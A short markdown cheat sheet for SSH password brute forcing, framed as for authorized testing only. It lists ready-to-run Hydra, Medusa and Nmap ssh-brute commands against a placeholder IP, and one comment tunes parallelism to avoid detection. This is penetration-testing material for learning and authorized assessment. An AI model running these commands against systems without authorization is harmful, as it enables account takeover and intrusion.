 
## SSH Brute Force (AUTHORIZED TESTING ONLY)

⚠️ **CRITICAL WARNING:** SSH brute forcing is ILLEGAL without explicit written authorization. Use only on your own systems or authorized penetration testing engagements. Unauthorized access is a criminal offense.

### Method 1: Hydra (Recommended)
```bash
# Install hydra
sudo apt install hydra -y

# Single user, password list
hydra -l username -P passwords.txt ssh://<IP>

# User list, single password
hydra -L users.txt -p password123 ssh://<IP>

# User list + password list (most common)
hydra -L users.txt -P passwords.txt ssh://<IP>

# Custom port
hydra -L users.txt -P passwords.txt ssh://<IP>:2222

# With additional options
hydra -L users.txt -P passwords.txt -t 4 -V -f ssh://<IP>
# -t 4    = 4 parallel tasks (avoid detection/blocking)
# -V      = verbose (show attempts)
# -f      = exit after first valid credential found
```

### Method 2: Medusa
```bash
# Install medusa
sudo apt install medusa -y

# Basic syntax
medusa -h <IP> -U users.txt -P passwords.txt -M ssh

# With options
medusa -h <IP> -U users.txt -P passwords.txt -M ssh -t 4 -f -v 6
# -t 4    = 4 parallel threads
# -f      = stop on first valid credential
# -v 6    = verbose level 6
```

### Method 3: Nmap NSE Script
```bash
# Using nmap's ssh-brute script
nmap -p 22 --script ssh-brute \
  --script-args userdb=users.txt,passdb=passwords.txt <IP>

# With timing
nmap -p 22 --script ssh-brute \
  --script-args userdb=users.txt,passdb=passwords.txt,brute.delay=3s <IP>
```
